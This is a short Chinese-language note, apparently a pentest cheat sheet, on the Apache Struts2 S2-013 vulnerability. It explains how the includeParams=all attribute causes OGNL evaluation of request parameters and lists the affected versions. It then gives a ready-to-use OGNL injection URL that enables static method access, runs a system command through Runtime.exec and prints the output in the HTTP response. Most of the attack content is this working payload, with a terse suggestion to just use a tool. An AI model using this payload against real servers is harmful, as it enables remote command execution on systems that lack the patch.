


# web

S2-013

```
Struts2 标签中 <s:a> 和 <s:url> 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

none - 链接不包含请求的任意参数值（默认）
get - 链接只包含 GET 请求中的参数和其值
all - 链接包含 GET 和 POST 所有参数和其值
<s:a>用来显示一个超链接，当includeParams=all的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行OGNL渲染，造成任意命令执行漏洞

影响版本：2.0.0 - 2.3.14.1

```
1.工具直接打


2.
```
/link.action?a=${#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#out.println('dbapp='+new java.lang.String(#d)),#out.close()}

```